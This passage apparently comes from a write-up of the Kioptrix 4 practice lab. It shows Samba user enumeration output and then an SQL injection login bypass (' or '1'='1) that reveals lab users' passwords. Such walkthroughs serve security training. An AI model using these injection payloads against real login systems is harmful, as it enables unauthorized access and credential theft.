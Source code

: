 [+] Got OS info for 192.168.56.102 from srvinfo:
	KIOPTRIX4      Wk Sv PrQ Unx NT SNT Kioptrix4 server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	4.9
	server type     :	0x809a03

 =============================== 
|    Users on 192.168.56.102    |
 =============================== 
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody	Name: nobody	Desc: (null)
index: 0x2 RID: 0xbbc acb: 0x00000010 Account: robert	Name: ,,,	Desc: (null)
index: 0x3 RID: 0x3e8 acb: 0x00000010 Account: root	Name: root	Desc: (null)
index: 0x4 RID: 0xbba acb: 0x00000010 Account: john	Name: ,,,	Desc: (null)
index: 0x5 RID: 0xbb8 acb: 0x00000010 Account: loneferret	Name: loneferret,,,	Desc: (null)

user:[nobody] rid:[0x1f5]
user:[robert] rid:[0xbbc]
user:[root] rid:[0x3e8]
user:[john] rid:[0xbba]
user:[loneferret] rid:[0xbb8]

{% endhighlight %}

Some useful information here, Samba version and usernames.

There's not much information to be gained from the web app, it looks like its just a login page. No robots.txt, nikto doesn't find anything interesting and there's nothing in html source of interest. The next step is to test for sql injection.

## Web app
The web app only has a login page so the only to do is try sql injection. This involves sending special characters ('"`) to escape the sql command and hopefully return a verbose error message. ' in the password field returns the error.

>Warning: mysql_num_rows(): supplied argument is not a valid MySQL result resource in /var/www/checklogin.php on line 28
Wrong Username or Password

This means we are able to alter the sql command and the app is vulnerable to injection. We gathered a few usernames from enumerating the Samba service so we could try to bypass the login using `' or '1'='1`.
{% highlight sql %}
username=admin pass=' or '1'='1 results in the error:
{% endhighlight %}
>User admin
Oups, something went wrong with your member's page account.
Please contact your local Administrator
to fix the issue.
{% highlight sql %}
username=robert pass=' or '1'='1
{% endhighlight %}
>Username 	: 	robert
Password 	: 	ADGAdsafdfwt4gadfga==
{% highlight sql %}
username=john pass=' or '1'='1
{% endhighlight %}
>Username 	: 	john
Password 	: 	MyNameIsJohn

